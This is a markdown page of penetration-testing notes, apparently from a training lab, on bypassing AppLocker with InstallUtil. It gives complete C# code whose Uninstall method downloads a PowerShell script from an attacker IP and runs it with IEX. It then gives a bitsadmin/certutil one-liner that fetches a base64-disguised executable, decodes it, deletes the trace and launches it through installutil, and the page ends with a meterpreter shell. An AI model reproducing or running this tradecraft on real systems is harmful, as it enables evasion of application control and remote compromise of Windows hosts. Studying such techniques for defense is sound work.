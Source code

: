 ## The Need
We bypassed constrained language mode in PowerShell but ended up needing the ability to bypass the AppLocker executable rules for a C# application.

We will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly.
Our goal is to reintroduce our PowerShell shellcode runner tradecraft in an AppLocker-protected environment.

We are only going to use the _uninstall_ method since the _install_ method requires administrative privileges to execute.

Our code will look as follows:
```Csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace CLMBypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }


    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/run.ps1') | IEX;";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
 
```

After compiling this code, if the executable is run by administrative privileges, the message will be displayed instead of our code execution.

To execute our shellcode we can run the following command:
```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

However, to use instalutil, the executable needs to be on disk where it may detected, thus we'll obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk.

We will store the base64 encoded executable on our attack box's web root and use the following code to download the executable, decode it, and run it.

```cmd
bitsadmin /Transfer myJob http://192.168.49.135/CLMBypass-b64.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

Executing the command gives us a meterpreter shell:

![](../../../Screenshots/clmby-sh.png)
